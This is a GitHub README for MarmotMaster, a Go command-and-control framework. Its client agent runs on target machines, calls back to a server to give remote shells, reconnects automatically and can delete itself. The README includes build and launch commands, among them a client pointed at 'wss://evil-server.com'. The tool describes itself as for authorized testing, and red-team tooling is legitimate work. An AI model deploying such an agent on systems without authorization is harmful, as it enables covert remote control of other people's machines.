

# 🦫 MarmotMaster

> **"Because sometimes you need to control things from a distance... and look cool doing it."**



---

## 🎯 What is this?

MarmotMaster is a **Command & Control (C2)** framework written in Go. Think of it as your personal remote terminal empire, but with a fancy web UI that makes you feel like you're in a hacker movie from the 90s.

**Translation for normies:** It lets you remotely control multiple machines through a web interface. Each client connects back to your server, and you can execute commands, manage terminals, and do other fun stuff. All with a modern web UI that doesn't look like it was designed in 1995.

---

## ⚡ Features (The Good Stuff)

- **🖥️ Real Terminal Emulation** - Full PTY support, so you can run `btop`, `vim`, `htop`, and other TUI apps. No more "No tty detected" errors!
- **🌐 Web-Based Control Panel** - Beautiful UI built with Tailwind CSS. No need to SSH into your C2 server like a caveman.
- **🔒 TLS/WSS Encryption** - Self-signed certs (because who has time for Let's Encrypt when you're being edgy?)
- **💀 Self-Destruct Mode** - Clients can delete themselves. Perfect for when things get hot.
- **📡 Broadcast Commands** - Send the same command to all clients at once. Mass orchestration, baby!
- **🔄 Auto-Reconnect** - Clients automatically reconnect if the connection drops. Set it and forget it.
- **🔐 Optional Authentication** - ~~Password protect your server~~ (Coming soon - currently no authentication required)

---

## 🚀 Quick Start (For the Impatient)

### Prerequisites

- Go 1.21 or higher (because we're not living in the past)
- A terminal that doesn't suck
- Basic knowledge of how computers work (optional but recommended)

### Installation

```bash
# Clone this repo (or download it, we don't judge)
git clone https://github.com/atdma/marmotmaster
cd marmotmaster

# Get dependencies
go mod download

# Build everything
make build

# Or build individually if you're picky
make build-server
make build-client
```

### Running the Server

```bash
# Default (listens on 0.0.0.0:8443)
make run-server

# Or with custom host/port
cd bin
./marmotmaster-server -host 192.168.1.100 -port 8443

# Note: Password authentication is not currently implemented
# The server accepts connections without authentication by default
```

The server will:
- Generate self-signed certificates automatically (first run only)
- Start an HTTPS server on port 8443 (or whatever you specify)
- Serve a web UI at `https://localhost:8443` (or your IP)
- Accept client connections on `/ws/client`
- Accept UI connections on `/ws/ui`

### Running the Client

```bash
# Basic usage
./bin/marmotmaster-client -host 192.168.1.100 -port 8443

# With custom client ID
./bin/marmotmaster-client -host example.com -port 443 -id "my-special-client"

# Using environment variables (for the sneaky types)
export MARMOTMASTER_SERVER_URL="wss://evil-server.com:8443"
export MARMOTMASTER_CLIENT_ID="sneaky-beast"
./bin/marmotmaster-client
```

The client will:
- Connect to your server via WebSocket (WSS for HTTPS, WS for HTTP)
- Spawn an interactive shell (bash on Unix, cmd.exe on Windows)
- Forward all terminal I/O through the WebSocket
- Automatically reconnect if the connection drops
- Restart the shell if it exits (because `exit` shouldn't break things)

---

## 🎮 Usage

### Web UI

1. Open your browser and navigate to `https://your-server-ip:8443`
2. Accept the security warning
3. Select a client from the sidebar
4. Start typing commands like you own the place

### Command Line Arguments

**Server:**
- `-host` - Host address to bind to (default: `0.0.0.0` - all interfaces)
- `-port` - Port to listen on (default: `8443`)

**Client:**
- `-host` - Server hostname or IP (default: `localhost`)
- `-port` - Server port (default: `8443` if not specified, uses WSS for 443/8443, WS for other ports)
- `-id` - Custom client ID (default: auto-generated like `client-hostname-timestamp`)

### Environment Variables

**Client:**
- `MARMOTMASTER_SERVER_URL` - Full WebSocket URL (e.g., `wss://192.168.1.100:8443`)
- `MARMOTMASTER_CLIENT_ID` - Client identifier

---

## 🔥 Advanced Features

### Self-Destruct

Want to make a client disappear? Click the self-destruct button in the UI. The client will:
1. Delete its own binary
2. Kill its own process
3. Vanish into the digital void

**Warning:** This is permanent. The client is gone. No take-backs. Use responsibly (or don't, we're not your mom).

### Broadcast Commands

Need to run the same command on all clients? Click the lightning bolt icon and type your command. It'll execute on every connected client simultaneously. Perfect for:
- Mass updates
- Synchronized operations
- Chaos (if that's your thing)

### Terminal Features

- **Full TUI Support** - Run `vim`, `htop`, `btop`, `ncurses` apps, etc.
- **Resize Handling** - Terminal automatically resizes when you resize the browser window
- **Binary Data Support** - All control sequences preserved for proper terminal emulation
- **Auto-Restart** - If a shell exits, it automatically restarts (no manual intervention needed)

---

## 🛠️ Building from Source

```bash
# Build server
make build-server

# Build client
make build-client

# Build both
make build

# Clean build artifacts
make clean

# Download dependencies
make deps
```

The binaries will be in the `bin/` directory:
- `bin/marmotmaster-server` - The C2 server
- `bin/marmotmaster-client` - The client agent
- `bin/static/` - Web UI files (copied automatically)

---

## 📁 Project Structure

```
.
├── client/              # Client code (the thing that runs on target machines)
│   ├── client/         # Client package (WebSocket, PTY management)
│   │   ├── client.go   # Client struct and connection handling
│   │   ├── message.go  # Message struct definition
│   │   └── pty.go      # PTY management and shell operations
│   ├── config/         # Configuration parsing
│   └── main.go         # Client entry point
├── server/              # Server code (your command center)
│   ├── server/         # Server package (WebSocket handlers, message routing)
│   │   ├── client.go   # Client and UIConnection types
│   │   ├── handlers.go  # Message handler implementations
│   │   ├── message.go  # Message types and validation
│   │   ├── server.go   # Server struct and event loop
│   │   └── websocket.go # WebSocket connection handlers
│   ├── cert/           # Certificate generation
│   ├── static/         # Web UI files (index.html and static.go)
│   └── main.go         # Server entry point
├── bin/                 # Build output (gitignored)
├── Makefile            # Build automation
└── go.mod              # Go module definition
```

---

## 🔒 Security Notes (The Boring Part)

- **No authentication** - Currently, there's no password protection. Anyone who can reach your server can access the web UI. Don't expose this to the internet without a firewall or reverse proxy with auth.
- **No rate limiting** - If someone wants to spam your server, they can. Add rate limiting if you care.
- **No encryption at rest** - We don't store anything, so this isn't really an issue, but we're mentioning it anyway.
- **Client connections don't require auth** - Neither do UI connections currently. Everything is open by default.

**TL;DR:** This is a tool. Use it responsibly. We're not responsible if you do something stupid with it.

---

## 🐛 Known Issues / Limitations

- Self-signed certs trigger browser warnings (by design)
- No built-in persistence (clients need to reconnect after server restart)
- No command history in the web UI (yet)
- Windows support exists but is less tested than Unix
- No built-in file transfer (yet - use `base64` encoding if you're desperate)

---

## 🤝 Contributing

Want to contribute? Cool. Just:
1. Don't break existing functionality
2. Write code that doesn't make us cry
3. Test your changes
4. Submit a PR

Or don't. We're not forcing you.

---

## 📝 License

Do whatever you want with this. We're not lawyers. Just don't blame us if something goes wrong.

---

## 🙏 Credits

Built with:
- [Go](https://go.dev/) - Because it's fast and we like it
- [Gorilla WebSocket](https://github.com/gorilla/websocket) - For WebSocket magic
- [creack/pty](https://github.com/creack/pty) - For PTY support
- [xterm.js](https://xtermjs.org/) - For terminal emulation in the browser
- [Tailwind CSS](https://tailwindcss.com/) - For making things look good

---

## 💬 Final Words

This tool is for **educational purposes** and **authorized testing only**. Don't be that person who uses it for malicious purposes. We're not responsible for what you do with it.

Now go forth and control your digital empire. Or just use it to manage your home lab. We don't judge.

**Happy hacking! 🦫**

---

*"In the end, we're all just packets on a wire."* - Some hacker, probably

